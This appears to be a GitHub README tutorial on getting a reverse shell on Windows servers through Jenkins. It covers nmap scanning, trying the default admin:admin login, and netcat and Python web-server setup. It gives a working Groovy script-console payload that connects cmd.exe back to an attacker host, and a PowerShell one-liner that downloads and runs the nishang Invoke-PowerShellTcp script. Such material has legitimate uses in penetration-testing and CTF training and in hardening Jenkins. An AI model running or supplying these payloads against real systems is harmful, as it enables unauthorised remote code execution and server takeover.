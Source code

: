 # reverse-shell-via-Jenkins

Simple scenario of how we can gain access to Windows web servers using admin account on Jenkins.


## Ports scanning

Scan an IP address like this:
```
nmap -sV -sC -oA <some_IP>
```
Note: It is important to note that using -sV will force Nmap to proceed with the TCP 3-way handshake and establish the connection.
The connection establishment is necessary because Nmap cannot discover the version without establishing a connection fully and communicating with the listening service. In other words, stealth SYN scan -sS is not possible when -sV option is chosen.


Let's say, you found open 8080 port with Jetty as a service and Windows web page on port 80.

You can be almost sure it's Jenkins. 

This application is running on 8080 as a default port and Jetty is an internal web container that Jenkins is using to has the ability to serve HTTPS as one of the methods of authentication.

Access `http://<IP_address>:8080` and check if Jenkins login panel is avaliable.
If yes, then go to the next step `Login`.


## Login

Default credentials to Jenkins are admin:admin. Try it.

If you gained admin access to Jenkins, you can do almost everything. 

Now, it's time to get a reverse shell.


## Gain reverse shell

Let's try to execute some code to get initial shell to Windows web server via Jenkins.

First of all, use nishang script to gain reverse shell on Windows. Download this script on local machine:
```
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
```

Sceondly, run Python webserver in the same directory that you've been downloading script mentioned above.

```
python -m http.server
```
This command will start web server on default port with is 80.
If you want to change port, define it at the end of command.
```
python -m http.server <port>
```


The last this you should prepare is to start `netcat` listener on your local machine:
```
nc -lvnp <random_port>
```


## Run code via Jenkins

There is a coupe of ways to do it:

### First scenario:

1. Go to `Manage Jenkins` -> `Script Console`
2. Add Groovy script to execute this code on Windows machine:

```
Thread.start {
String host="<your_machine_IP>";
int port=<your_webserver_port>;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
}
```
3. Run script and you should have session open in your listener.

### Second scenario:

1. Go to `New Item` -> `Freestyle job` -> `Execute Windows batch command`.
2. Add Powershell code:

```
powershell iex (New-Object Net.WebClient).DownloadString(‘http://<your_machine_IP>:<your_webserver_port>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <your_machine_IP>-Port <your_listener_port>
```
3. Save new job configuration with `Apply`.
4. Run job clicking `Build now` and you should have session open in your listener after job is completed.






